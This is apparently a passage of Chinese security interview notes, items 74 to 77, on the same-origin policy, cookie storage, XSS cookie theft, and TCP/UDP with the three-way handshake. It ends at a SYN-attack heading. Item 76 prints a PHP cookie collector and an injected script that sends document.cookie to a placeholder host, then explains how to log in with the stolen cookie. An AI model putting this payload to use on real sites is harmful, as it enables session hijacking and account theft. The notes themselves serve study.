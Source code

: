 74.什么是同源策略？  
  1.   为了防止不同域在用户浏览器中彼此干扰，浏览器对从不同来源（域）收到的内容进行隔离。浏览器不允许任何旧有脚本访问一个站点的 cookie ，否则   ，会话容易被劫持。  
      只有发布 cookie 的站点能够访问这些 cookie ，只有通过该站点返回的页面所包含或加载的 JavaScript 才能访问 cookie。协议相同 ，域名相同 ，端口相同  

75.cookie 存在哪里？可以打开吗?  
C:\ Users\用户名\AppData\ Roaming\ Microsoft\Windows\Cookies  
工具--文件夹选项--查看--将隐藏被保护的文件的对勾去掉就会看到 cookies 文件夹。  

76.xss 如何盗取 cookie ？  
攻击者代码：  
<?php  $cookie=$_GET['cookie'];  
$time=date('Y-m-d g:i:s');  
$referer=getenv('HTTP_REFERER');  
$cookietxt=fopen('cookie.txt','a');  
fwrite($cookietxt,"time:".$time." cookie:".$cookie." referer:".$referer."");  
//注意双引号，容易出错  
fclose($cookietxt);  
?>  
脚本端：  
<script>  
document.write('<img  
src="http://ip/cookie.php?cookie='+document.cookie+'" width=0  
height=0 border=0 />');  
</script>  
获取到 cookie 后，用 firebug 找到 cookie ，新建cookie加入 cookie ，用referer 来提交，无需输入帐号密码直接登录进去！  

77.tcp、udp 的区别及tcp 三次握手，syn 攻击？  
也可参考 
http://www.cnblogs.com/bizhu/archive/2012/05/12/2497493.html  
 （1 ）tcp、udp 区别  
TCP 的优点：可靠，稳定  
TCP 的可靠体现在 TCP 在传递数据之前，会有三次握手来建立连接，而且在数据传递时，有确认、窗口、重传、拥塞控制机制，在数据传完后，还会断开连接用来节约系统资源。  
TCP 的缺点：慢，效率低，占用系统资源高，易被攻击  
TCP 在传递数据之前，要先建连接，这会消耗时间，而且在数据传递时，确认机制、重传机制、拥塞控制机制等都会消耗大量的时间，而且要在每台设备上维护所有的传输连接，事实上，每个连接都会占用系统的 CPU、内存等硬件资源。 而且，因为 TCP 有确认机制、三次握手机制，这些也导致 TCP 容易被人利用，实现 DOS、DDOS、CC 等攻击。  
UDP 的优点：  快，比 TCP 稍安全  
UDP 没有 TCP 的握手、确认、窗口、重传、拥塞控制等机制，UDP 是一个无状态的传输协议，所以它在传递数据时非常快。没有 TCP 的这些机制 ，UDP 较 TCP 被攻击者利用的漏洞就要少一些。但 UDP 也是无法避免攻击的，比如：UDP  Flood 攻击……  
UDP 的缺点： 不可靠，不稳定  
因为 UDP 没有 TCP 那些可靠的机制，在数据传递时，如果网络质量不好，就会很容易丢包。  
基于上面的优缺点，那么：什么时候应该使用 TCP ：  
当对网络通讯质量有要求的时候，比如：整个数据要准确无误的传递给对方，这 
往往用于一些要求可靠的应用，比如 HTTP、HTTPS、FTP 等传输文件的协议， 
POP、SMTP 等邮件传输的协议。  
在日常生活中，常见使用 TCP 协议的应用如下：  
浏览器，用的 HTTP FlashFXP ，用的FTP  Outlook ，用的POP、SMTP  Putty ，用的Telnet、SSH  
QQ 文件传输 
什么时候应该使用 UDP ：  
当对网络通讯质量要求不高的时候，要求网络通讯速度能尽量的快，这时就可以使用 UDP。比如，日常生活中，常见使用 UDP 协议的应用如下：QQ 语音  QQ 视频  TFTP  
 （2 ）TCP 握手协议  
在 TCP/IP 协议中，TCP 协议提供可靠的连接服务，采用三次握手建立一个连接。  
第一次握手：建立连接时，客户端发送 syn 包(syn=j)到服务器，并进入SYN_SEND 状态，等待服务器确认；  
第二次握手：服务器收到 syn 包，必须确认客户的 SYN （ack=j+1 ），同时自己也发送一个 SYN 包（syn=k ），即 SYN+ACK 包，此时服务器进入 SYN_RECV 状态；  
第三次握手：客户端收到服务器的 SYN+ACK 包，向服务器发送确认包ACK(ack=k+1) ，此包发送完毕，客户端和服务器进入 ESTABLISHED 状态，完成三次握手。完成三次握手，客户端与服务器开始传送数据，在上述过程中，还有一些重要的概念：  
未连接队列：在三次握手协议中，服务器维护一个未连接队列 ，该队列为每个客户端的 SYN 包（syn=j ）开设一个条目，该条目表明服务器已收到 SYN 包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于 Syn_RECV 状态，  
当服务器收到客户的确认包时，删除该条目，服务器进入 ESTABLISHED 状态。  
backlog 参数：表示未连接队列的最大容纳数目。  
SYN-ACK  重传次数  服务器发送完 SYN －ACK 包，如果未收到客户确认包， 
服务器进行首次重传，等待一段时间仍未收到客户确认包，进行第二次重传，如果重传次数超过系统规定的最大重传次数，系统将该连接信息从半连接队列中删除。注意，每次重传等待的时间不一定相同。  
半连接存活时间：是指半连接队列的条目存活的最长时间，也即服务从收到 SYN 
包到确认这个报文无效的最长时间，该时间值是所有重传请求包的最长等待时间总和。有时我们也称半连接存活时间为 Timeout 时间、SYN_RECV 存活时间。  
 （3 ）SYN 攻击原理  